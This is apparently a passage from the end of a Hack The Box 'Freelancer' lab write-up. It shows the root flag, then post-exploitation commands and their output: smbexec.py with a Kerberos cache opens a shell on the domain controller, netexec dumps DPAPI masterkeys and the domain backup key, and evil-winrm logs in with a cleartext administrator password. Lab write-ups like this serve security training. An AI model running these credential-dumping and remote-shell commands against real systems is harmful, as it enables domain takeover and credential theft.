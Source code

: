 ```c
# cat Users\Administrator\Desktop\root.txt
8acf9ca8f87083d4a3b1b3207834284e
```

## Post Exploitation

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Freelancer/files]
└─$ smbexec.py administrator@dc.freelancer.htb -k -no-pass
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

[!] Launching semi-interactive shell - Careful what you execute
C:\WINDOWS\system32>
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Freelancer/files]
└─$ netexec smb 10.129.7.9 -u administrator --use-kcache --dpapi
SMB         10.129.7.9      445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.129.7.9      445    DC               [+] freelancer.htb\administrator from ccache (Pwn3d!)
SMB         10.129.7.9      445    DC               [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.7.9      445    DC               [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
```

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i freelancer.htb  -u administrator -p 'v3ryS0l!dPasswd#29'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

